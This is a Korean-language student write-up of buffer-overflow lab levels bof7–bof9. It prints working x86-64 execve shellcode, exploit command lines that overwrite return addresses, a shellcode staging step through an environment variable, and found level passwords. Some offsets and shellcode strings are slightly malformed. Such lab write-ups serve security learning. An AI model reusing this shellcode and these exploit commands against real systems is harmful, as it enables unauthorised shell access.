## 마지막

### bof7 



위의 그림과 같이 main의 argv와 environ가 저장 되는 곳이 stack 보다 더 윗 부분 이기 때문에, argv의 값이 늘어난다면 stack의 시작 위치는 늘어 날 수 밖에 없음을 알 수 있었고, 

설명 해주신 것 처럼 bof7는 프로그램에 들어오는 인자가의 크기에 따라 buf의 주소값이 바뀜을 알 수 있었다. 

그러니 지금 우리가 해야할 일은 우리가 필요한 만큼의 인자 크기를 계산하고, 그 값일 때 해당하는 버퍼의 주소값을 찾아 이 값을 리턴 어드레스에 써야지 퍼버로 입력한 쉘이 작동하게 되어 권한을 얻어서 비밀번호를 찾아 낼 수 있게 된다!

 buf와 return address가지의 거리가 136이고,  그다음에 리턴 주소값으로 필요한 값이 8바이트이기 때문에 총 144바이트가 필요함 하다!

쉘코드: x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05  =>27 바이트

리턴 어드레스: \xd0\xe3\xff\xff\xff\x7f

./bof7 `python -c "print 'x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05 '+'a'*109 +'\xd0\xe3\xff\xff\xff\x7f'"`

라고 생각해서 이렇게 계속 값을 넣어봤지만, 



결론적으로 ./bof7 `python -c "print 'x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'a'*107+'\x10\xe4\xff\xff\xff\x7f'"`

이 명령어가 익스플로잇을 성공하는 답안이었다! 



왜 때문에 144가 안되는 것인지 이해가 잘 되지 않는다. 대략적으로 보았을때도 136이 세그멘데이션의 값이 뜨는 부분인데, 107의 쓰레기값이 맞아 떨어지는 지 이유는 잘 모르겠다.

bof8비번: 427102c4

---

### bof8



bof8은 bof7와 같이 shellcode가 코드에 심어져 있지 않을 뿐만 아니라, 이를 받을 수 있는 버퍼의 크기 까지 한정되어 있기 때문에 다른 방법을 찾아야 한다. 

그 방법으로는 환경변수로 shellcode를 미리 설정해 주어 shell를 실행 시키는 방법이다.

##### getenv함수란?

그래서 위의 함수을 쓰기 위해 환경변수로 shellcode를 정해 준다.

export SHELLCODE=`python -c "print '\x90'*10+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'"`



env로 확인해보니 환경 변수가 잘 설정되었음을 알 수 있었다. 

주소값을 확인하기 위해, gdb를 해서 vuln함수의 return값은 알아내었지만 get 함수의 주소값은 찾아내기가 어려웠다.



c코드를 살펴보면 if문안으로 들어가는것 없이 get가 실행되야하는데, 위처럼 점프를 해서 바로 leave함수로 가버리고 그렇다면 맞는 인자를 넣어야하나 라는 생각대문에 <<<를 사용해서 인자값을 넣어보고자 하였지만 딱히 gdb가 실행되지 않았다.



(python -c "print 'x'*24+'\x12\xe8\xff\xff\xff\x7f'";cat) | ./bof8



bof9답: 83fd47cf

#### bof9



bof8번이랑 비슷한데 상황이 악화되었다.. 환경변수도 쓰지 못한다...이걸어쩌지...



버퍼와 리턴 어드레스 차이를 계속 구하고 싶었는데 nextcall에서 leave로 바로 넘어간다. 전에 풀었던 것과 같은 식으로 계속넘어가서 방법을 찾지 못하겠다...!



위에가 system 함수의 주소값이고, 아래가 /bin/sh 무자열의 주소값이다.



사실 9번은 어떤 방식으로 흘러가는지 설명을 글을 보아도 이해가 잘 되지 않는다.... 새로운 방법을 쓰는 것같은데 어떤식으로 접근해야하는지 이해가 잘 되지 않는다...